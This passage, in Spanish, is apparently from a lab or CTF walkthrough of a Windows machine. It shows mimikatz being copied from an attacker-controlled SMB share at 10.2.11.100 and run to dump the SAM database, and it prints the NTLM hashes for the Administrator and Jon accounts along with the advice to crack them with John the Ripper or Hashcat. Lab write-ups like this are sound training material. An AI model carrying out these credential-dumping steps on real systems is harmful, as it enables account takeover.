 - Cliente (blue):
    
    ```bash
    C:\Windows\Temp>copy \\10.2.11.100\\a\\mimikatz.exe
    copy \\10.2.11.100\\a\\mimikatz.exe
            1 file(s) copied.
    ```
    

Una vez ejecutado `mimikatz.exe` en la máquina víctima, usamos el comando `lsadump::sam` , para obtener los hashes NTLM de los usuarios locales de Windows a partir de la base de datos SAM (Security Account Manager).

```bash
C:\Windows\Temp>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam
Domain : JON-PC
SysKey : 55bd17830e678f18a3110daf2c17d4c7
Local SID : S-1-5-21-2633577515-2458672280-487782642

SAMKey : c74ee832c5b6f4030dbbc7b51a011b1e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Jon
  Hash NTLM: ffb43f0de35be4d9917ac0cc8ad57f8d
```

Con los hashes NTLM obtenidos, podemos nuevamente emplear la herramienta `John the Ripper` o `Hash Cat` para crackear las contraseñas de los usuarios del sistema.

¡Happy Hacking!

